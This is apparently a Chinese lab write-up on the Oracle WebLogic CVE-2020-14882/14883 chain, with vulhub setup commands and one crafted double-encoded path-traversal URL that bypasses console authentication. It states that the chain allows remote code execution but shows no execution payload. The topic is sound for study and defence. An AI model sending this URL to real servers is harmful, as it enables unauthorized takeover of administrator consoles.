

# Weblogic 未授权访问漏洞

## 漏洞描述

Weblogic是Oracle公司推出的J2EE应用服务器，CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

## 漏洞检测

使用vulhub搭建漏洞演示环境

```bash
cd vulhub/weblogic/CVE-2020-14882
sudo docker-compose up -d
```

```
http://192.168.0.5:7001/console/css/%252e%252e%252fconsole.portal
```

攻击者可以构造特殊请求的URL，即可未授权访问到管理后台页面：



远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console ，并在 WebLogic Server Console 执行任意代码。

